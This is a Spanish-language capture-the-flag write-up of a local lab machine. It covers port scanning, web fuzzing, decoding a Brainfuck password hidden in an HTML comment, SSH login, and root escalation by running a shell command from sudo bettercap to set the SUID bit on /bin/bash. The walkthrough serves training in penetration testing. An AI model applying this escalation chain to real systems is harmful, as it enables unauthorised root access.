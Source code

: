 # Escaneo de Puertos, Servicios y Versiones


`nmap -Pn -n -sS -p- --open -sCV --min-rate 5000 172.17.0.2 -oN nmap`
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-30 14:24 -03
Nmap scan report for 172.17.0.2
Host is up (0.0000020s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 75:ec:4d:36:12:93:58:82:7b:62:e3:52:91:70:83:70 (ECDSA)
|_  256 8f:d8:0f:2c:4b:3e:2b:d7:3c:a2:83:d3:6d:3f:76:aa (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.59 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.22 seconds
```


como esta el puerto 80 levantado, realizare fuzzing web

# Fuzzing Web


`feroxbuster -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -s 200,301,302 -x txt,php,bak,db,py,html,js,jpg,png -t 200 -d 10 --random-agent --methods GET,POST`

```
___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://172.17.0.2
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
 👌  Status Codes          │ [200, 301, 302]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ Random
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [txt, php, bak, db, py, html, js, jpg, png]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 10
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
301      GET        9l       28w      309c http://172.17.0.2/images => http://172.17.0.2/images/
200      GET       24l      127w    10355c http://172.17.0.2/icons/openlogo-75.png
200      GET      521l      936w    11142c http://172.17.0.2/
200      GET      215l      927w    91172c http://172.17.0.2/images/agua_ssh.jpg
200      GET      521l      936w    11142c http://172.17.0.2/index.html
[####################] - 4m   2076360/2076360 0s      found:5       errors:2316   
[####################] - 4m   2076290/2076290 8624/s  http://172.17.0.2/ 
[####################] - 0s   2076290/2076290 79857308/s http://172.17.0.2/images/ => Directory listing (add --scan-dir-listings to scan)   
```


no veo nada de interes a primera vista asi que procedo a chequear desde el navegador y despues de inspeccionar el codigo fuente me consigo con el siguiente comentario:


```
<!--
++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.
-->
```

y resulta ser Brainfuck, un lenguaje de programacion esoterico asi que busco un decoder en internet y obtengo el siguiente resultado

![Screenshot From 2024-10-30 14-51-08](https://github.com/user-attachments/assets/0c14f799-dafe-41d3-85ae-8615ada829c1)


lo que parece ser una password: bebeaguaqueessano
ahora me descargo la imagen que nos reporta feroxbuster que por lo visto tiene algo que ver con ssh

```
curl -O http://172.17.0.2/images/agua_ssh.jpg                          
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 50517  100 50517    0     0  36.0M      0 --:--:-- --:--:-- --:--:-- 48.1M

```

examino la imagen a ver si en los metadatos consigo algo o asi tiene incrustado un archivo pero nada de esto tiene resultado... asi que comienzo a probar por ssh diferentes user con la password: bebeaguaqueessano y obtengo resultados con el user agua

# Escalada de Privilegios

```
ssh agua@172.17.0.2      
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:EZNhR2ojYOvInwAg+dpLntRab/b7eRvr60vq3sn7hH8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
agua@172.17.0.2's password: 
Linux 2e557505bef6 6.11.2-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.11.2-1kali1 (2024-10-15) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 14 17:41:58 2024 from 172.17.0.1
agua@2e557505bef6:~$ sudo -l
Matching Defaults entries for agua on 2e557505bef6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User agua may run the following commands on 2e557505bef6:
    (root) NOPASSWD: /usr/bin/bettercap
agua@2e557505bef6:~$ 
```

por lo visto podemos hacer uso del binario /usr/bin/bettercap como root, asi que lo ejecuto y despliego la ayuda

```
agua@2e557505bef6:~$ sudo /usr/bin/bettercap
bettercap v2.32.0 (built for linux amd64 with go1.19.8) [type 'help' for a list of commands]

172.17.0.0/16 > 172.17.0.2  » [18:30:45] [sys.log] [war] exec: "ip": executable file not found in $PATH
172.17.0.0/16 > 172.17.0.2  » help

           help MODULE : List available commands or show module specific help if no module name is provided.
                active : Show information about active modules.
                  quit : Close the session and exit.
         sleep SECONDS : Sleep for the given amount of seconds.
              get NAME : Get the value of variable NAME, use * alone for all, or NAME* as a wildcard.
        set NAME VALUE : Set the VALUE of variable NAME.
  read VARIABLE PROMPT : Show a PROMPT to ask the user for input that will be saved inside VARIABLE.
                 clear : Clear the screen.
        include CAPLET : Load and run this caplet in the current session.
             ! COMMAND : Execute a shell command and print its output.
        alias MAC NAME : Assign an alias to a given endpoint given its MAC address.

Modules

      any.proxy > not running
       api.rest > not running
      arp.spoof > not running
      ble.recon > not running
             c2 > not running
        caplets > not running
    dhcp6.spoof > not running
      dns.spoof > not running
  events.stream > running
            gps > not running
            hid > not running
     http.proxy > not running
    http.server > not running
    https.proxy > not running
   https.server > not running
    mac.changer > not running
    mdns.server > not running
   mysql.server > not running
      ndp.spoof > not running
      net.probe > not running
      net.recon > not running
      net.sniff > not running
   packet.proxy > not running
       syn.scan > not running
      tcp.proxy > not running
         ticker > not running
             ui > not running
         update > not running
           wifi > not running
            wol > not running

172.17.0.0/16 > 172.17.0.2  »
```

aqui veo la opcion para ejecutar comandos con el parametro ! [comando], asi que le agrego el bit suid al binario /bin/bash

```
172.17.0.0/16 > 172.17.0.2  » ! chmod u+s /bin/bash
172.17.0.0/16 > 172.17.0.2  » ! ls -la /bin/bash
-rwsr-xr-x 1 root root 1265648 Apr 23  2023 /bin/bash
172.17.0.0/16 > 172.17.0.2  »
```

salgo de bettercap y realizo la escalada a root

```
agua@2e557505bef6:~$ /bin/bash -p
bash-5.2# whoami
root
bash-5.2# id
uid=1000(agua) gid=1000(agua) euid=0(root) groups=1000(agua),104(lxd)
bash-5.2# 
```
